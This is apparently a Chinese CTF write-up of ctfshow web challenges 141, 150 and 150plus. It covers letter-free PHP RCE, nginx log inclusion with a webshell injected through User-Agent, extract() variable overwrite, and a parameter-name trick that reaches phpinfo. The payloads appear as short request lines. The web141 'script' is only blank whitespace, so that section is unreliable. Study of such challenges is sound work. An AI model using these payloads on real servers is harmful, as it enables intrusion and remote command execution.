








### web141

开启容器

代码审计



`$v3`需要非字母开头

- `\W+` ：匹配一个或多个非单词字符。所谓“非单词字符”，指的是除字母（a-z，A-Z）、数字（0-9）和下划线（\_）之外的任何字符，比如标点符号、空格、特殊符号等。

简单来说就是无字母 RCE

总结一下，无字母 RCE 包括取反、异或、或、自增

这里没有其他字符过滤，应该是都可以

然后绕过 return 的方法要利用以下的 trick

> 在 PHP 中, 函数与数字进行运算的时候, 函数能够被正常执行

#### 取反

构造脚本

```php
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ?>`



成功写入木马


### web150

开启容器

代码审计



post 的`ctf`只是限制了不能有冒号，别的并没有被过滤`include($ctf)`，可以进行日志包含。

因为`$key`有过滤字符，所以我们可以通过`User-Agent`传递木马信息。

然后通过 extract 变量覆盖，满足 isVip 是 true 的条件限制。

**get**：`?isVIP=true`  
**post**：`ctf=/var/log/nginx/access.log&1=system('tac f*');`


在 user-agent 注入木马



### web150plus

开启容器

代码审计

**解答**：php 中变量名的点和空格会被转换成下划线。

**payload**：`?..CTFSHOW..=phpinfo`

直接看


